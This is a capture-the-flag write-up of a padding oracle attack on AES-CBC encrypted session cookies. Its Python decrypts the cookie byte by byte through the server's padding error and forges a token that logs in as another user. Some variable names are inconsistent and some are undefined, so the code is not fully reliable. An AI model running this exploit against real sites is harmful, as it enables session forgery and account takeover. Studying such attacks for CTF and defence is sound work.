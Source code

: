 # Padding Oracle Writup

> Greetings, brave challengers! As you embark on the Padding Oracle Adventure, remember that the key to triumph lies in understanding the AES-128-CBC encryption's Achilles' heel—the vulnerable Cipher Block Chaining mode. May the flags be with you!
>
> https://matrix.uctf.ir/
>
> hint 1: login page grants access to a user with the credentials "guest" for both the username and password. hint 2: token structure: {"user": ""}


# Quick summary
The cookie `token` will be decrypted by the server and is used to check the current user. 
The goal is to log in as the user "topg" and we are currently "guest". 
The server will return `error:1C800064:Provider routines::bad decrypt` if the padding is invalid. 
This gives us a padding oracle attack.
A padding oracle attack lets us decrypt the cookie by bruteforcing bytes one by one and checking if the padding is valid.
If we know the plaintext of the cookie, we can change it to anything we want, since AES-CBC is malleable.

# Background
## AES-CBC
![Image of AES-CBC Mode](CBC-mode.png)

AES-CBC is a block cipher mode of operation.
It encrypts blocks of 16 bytes at a time.
A property we can abuse is the fact that by xor'ing the ith byte of the ciphertext, the plaintext of the ith+16 byte block will be changed.

## PKCS#7 Padding

![Image of PKCS#7 Paddding](PKCS7-Padding.png)

PKCS#7 padding is a padding scheme used to pad messages to a multiple of the block size.
For example, if we are missing 3 bytes to fill the block, we will add 3 bytes with the value 0x03.
If we are missing 2 bytes, we will add 2 bytes with the value 0x02.
To prevent ambiguity, we will always add padding: if the message is a multiple of the block size, we will add a full block of padding (16 bytes).

# Padding Oracle Attack
## Helper Function
This helper function will make a request to the server with the given token.

```python
import requests
import base64
from pwn import xor

orig_token = b'\x8f+\x8a\x18\x15U\x8a\xaf0\xbc\x19\x8d+\x9e\x82\xca\xfe\xd3%\xc8\xdc\xa3\xfa\r\x85\x03\xe3\xf8"G-]\x9aJ\xecN\x1c\xfc\xf5~\xa2\xba\x84\xf4cz\x9f\x15'
orig_token = bytearray(orig_token)

def get(token):
    """Make a request with the token"""
    burp0_url = "https://matrix.uctf.ir:443/profile"
    enc_token = base64.b64encode(token).decode()
    burp0_cookies = {"a07680ed6e93df92c495eaba7ddfe23b": "5a03b1cd582744aec25f4bb1503a701a", "token": enc_token}
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Sec-Ch-Ua": "", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"\"", "Referer": "https://matrix.uctf.ir/login", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9"}
    return requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

def oracle(token):
    """Padding oracle"""
    resp = get(token)
    return resp.content !=  b'error:1C800064:Provider routines::bad decrypt'
```

## Step 1: Get the padding length

We know that the last bytes of the plaintext are the padding bytes.
A quick test confirms that the padding is 16 bytes long.

```python
In [9]: oracle(original_token[:16] + xor(16, 15, original_token[16:32]) + original_token[32:])
Out[9]: True

In [10]: oracle(original_token[:16] + xor(16, 17, original_token[16:32]) + original_token[32:])
Out[10]: False
```

### Step 2: Get the plaintext, starting with the last byte
To get the last byte of the plaintext, we bruteforce it with the following idea:
`oracle(xor(ct[16], guess, '\x01'))` will return true if the padding is valid, and false otherwise.
If we get the correct plaintext, we can continue with the next byte.

```python
orig_token = original_token[:-16] # Remove last block of padding (it's the 16 byte padding)

for i in range(1, 16):
    target_padding = (bytes([i]) * i).rjust(16, b'\x00')
    print(f"Target padding: {target_padding}")

    # Since we have json, we can only use printable characters and we start with common values first
    for test in "{}\",:'" + string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation:
        token = bytearray(orig_token)
        padded_data = data.encode().rjust(16, b'\x00')
        token = bytearray(xor(token[:16], target_padding, padded_data)) + token[16:]
        print(f"{test=} {hex(ord(test))}")
        token[16-i] ^= ord(test)
        print(f"{xor(token, orig_token).hex()=}")
        if oracle(token):
            print(f"Found byte {i}: {test}")
            data = test + data
            print(f"Data: {data}")
            break
    
    else:
        raise ValueError("Failed to find byte")
```

### Step 3: Forge a new token
Since we are impatient we stop the script at: `Data: ":"guest"}`.
We know that if we change that to `:"topg"}\1`, we will be logged in as "topg". 
We need to add the `\1` for the correct padding.

```python
token = xor(orig_token[:-16], b'guest"}'.rjust(16, b'\x00'), b'topg"}\1'.rjust(16, b'\x00')) + orig_token[-16:]
# Get the flag
print(get(token).content)

# Get the token in case you want to log in with your browser
print(f"Token: {base64.b64encode(token).decode()}")
```

![Image of our victory](Topg.png)

